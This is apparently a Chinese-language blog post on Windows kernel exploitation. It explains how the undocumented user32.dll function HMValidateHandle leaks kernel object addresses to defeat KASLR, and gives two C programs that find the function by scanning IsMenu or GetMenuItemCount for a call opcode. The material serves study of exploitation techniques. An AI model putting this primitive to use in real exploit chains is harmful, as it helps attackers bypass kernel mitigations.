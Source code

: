 ```yaml
---
title: HMValidateHandle
tags: windows
---
```


# HMValidateHandle

## 0x00 前言

一个典型的漏洞利用过程大概分为以下几步：

触发漏洞 —> 信息泄露 —> 构造读写原语 —> 代码执行

信息泄露的目的是利用一些泄露内核内存地址信息的方法，绕过 KASLR

## 0x01 KASLR

Windows vista 之后，微软对内核默认启用了 ASLR，即 KASLR，KASLR随机化了模块的加载基址，内核对象地址等，作为漏洞缓解的一种手段。对抗 KASLR 最直接的方法就是使用未公开函数或 Windows 内核信息泄露漏洞泄露内核内存地址信息。

## 0x02 HMValidateHandle

HMValidateHandle 是 user32.dll 中一个内部未公开的函数，他需要两个参数：handle、handle_type，通过查找句柄表，如果句柄与类型匹配，对象将会被复制到用户内存中，如果对象包含指向自身的指针，比如tagWND，HMValidateHandle 就能用来泄露内核内存地址。在 Windows 10 RS4 之后，微软关闭了这个函数。

## 0x03 查找HMValidateHandle

用 IDA 分析 user32.dll，查找到函数 isMenu：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image.png)

可以看到 HMVaildateHandle 在此函数中被调用，因此只要查找此函数，找到 opcode 等于 e80，就可以找到HMValidateHandle 的地址。

整个代码流程为：

![image-20210909183005095](https://gitee.com/tboom_is_here/bed/raw/master/img/image-20210909183005095.png)

## 0x04 代码

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pIsMenu = (BYTE*)GetProcAddress(hUser32, "IsMenu");  // 检索 user32.dll 中的输出库函数 IsMenu 地址

  if (pIsMenu == NULL)
  {
    printf("Failed to find location of exported function 'IsMenu' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pIsMenu + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'IsMenu'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pIsMenu + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pIsMenu + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 IsMenu 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x", pHmValidateHandle);
}

```


![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_2.png)

## 0x05 代码2

有上面的操作流程可知，只要调用了 HMValidateHandle 的函数都可以用来寻找 HMValidateHandle 的函数地址。

IDA查看引用：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_3.png)

挑选偏移较小的函数，如 GetMenuItemCount：

![](https://gitee.com/tboom_is_here/bed/raw/master/img/image_4.png)

首次调用的依然是 HMValideateHandle，因此可以直接修改代码为：

```C
#include <Windows.h>
#include <stdio.h>

#ifdef _WIN64
typedef void* (NTAPI *lHMValidateHandle)(HWND h, int type);
#else
typedef void* (_fastcall *lHMValidateHandle)(HWND h, int type);
#endif

lHMValidateHandle pHmValidateHandle = NULL;

BOOL FindHMValidateHandle()
{
  HMODULE hUser32 = LoadLibraryA("user32.dll");  // 加载 user32.dll
  if (hUser32 == NULL)
  {
    printf("Failed to load user32.dll");
    return FALSE;
  }

  BYTE* pGetMenuItemCount = (BYTE*)GetProcAddress(hUser32, "GetMenuItemCount");  // 检索 user32.dll 中的输出库函数 GetMenuItemCount 地址

  if (pGetMenuItemCount == NULL)
  {
    printf("Failed to find location of exported function 'GetMenuItemCount' within user32.dll\n");
    return FALSE;
  }

  unsigned int uiHMValidateHandleOffset = 0;

  //寻找第一个 Call 的偏移，即 HMValidateHandle 的偏移
  for (unsigned int i = 0; i < 0x1000; i++)
  {
    BYTE* test = pGetMenuItemCount + i;
    if (*test == 0xE8)
    {
      uiHMValidateHandleOffset = i + 1;
      break;
    }
  }
  if (uiHMValidateHandleOffset == 0)
  {
    printf("Failed to find offset of HMValidateHandle from location of 'GetMenuItemCount'\n");
    return FALSE;
  }

  unsigned int addr = *(unsigned int*)(pGetMenuItemCount + uiHMValidateHandleOffset);  // 获取 HMValidateHandle 对应的操作数

  pHmValidateHandle = (lHMValidateHandle)((unsigned int)pGetMenuItemCount + 11 + addr);  //要CALL的地址 = E8 后面的硬编码 + 下一条指令地址，11 是 CALL 的下一条指令相对 GetMenuItemCount 的偏移

  return TRUE;

}

int main()
{
  BOOL isFound = FindHMValidateHandle();
  printf("The address of HmValidateHandle is 0x%x",pHmValidateHandle);
}
```

